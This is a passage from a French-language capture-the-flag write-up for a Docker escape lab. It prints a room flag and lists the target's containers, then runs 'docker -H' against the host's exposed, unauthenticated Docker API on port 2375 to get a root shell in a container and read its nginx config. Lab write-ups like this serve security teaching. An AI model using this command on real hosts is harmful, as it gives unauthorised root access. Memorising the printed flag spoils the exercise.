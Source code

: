 Le flag est : THM{c62517c0cad93ac93a92b1315a32d734}   

**Simple webapp flag**

```bash
CONTAINER ID   IMAGE          COMMAND                  CREATED        STATUS       PORTS                  NAMES
49fe455a9681   frontend       "/docker-entrypoint.…"   9 months ago   Up 4 hours   0.0.0.0:80->80/tcp     dockerescapecompose_frontend_1
4b51f5742aad   exif-api-dev   "./application -Dqua…"   9 months ago   Up 4 hours                          dockerescapecompose_api-dev-backup_1
cb83912607b9   exif-api       "./application -Dqua…"   9 months ago   Up 4 hours   8080/tcp               dockerescapecompose_api_1
548b701caa56   endlessh       "/endlessh -v"           9 months ago   Up 4 hours   0.0.0.0:22->2222/tcp   dockerescapecompose_endlessh_1
```

On liste les images qui tournent sur le site web.  
L'image qui fait tourner le site est : dockerescapecompose_frontend_1   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ docker -H thegreatescape.thm:2375 exec -it dockerescapecompose_frontend_1 bash
root@docker-escape:/# id
uid=0(root) gid=0(root) groups=0(root)
root@docker-escape:/# cd /etc/nginx/
root@docker-escape:/etc/nginx# cd conf.d/
root@docker-escape:/etc/nginx/conf.d# cat default.conf 
limit_req_zone $binary_remote_addr zone=mylimit:1m rate=40r/m;

server {
    listen              80;
    server_name         docker-escape.thm;

    location /api/ {
        limit_req zone=mylimit;

        proxy_pass http://api:8080/;

        proxy_http_version 1.1;
        proxy_set_header Upgrade $http_upgrade;
        proxy_set_header Connection "Upgrade";
        proxy_set_header Host $host;
    }

    location / {
        limit_req zone=mylimit burst=18 delay=12;

        root /usr/share/nginx/html;
        try_files $uri $uri/ /index.html;
    }
}
root@docker-escape:/etc/nginx/conf.d# 
```
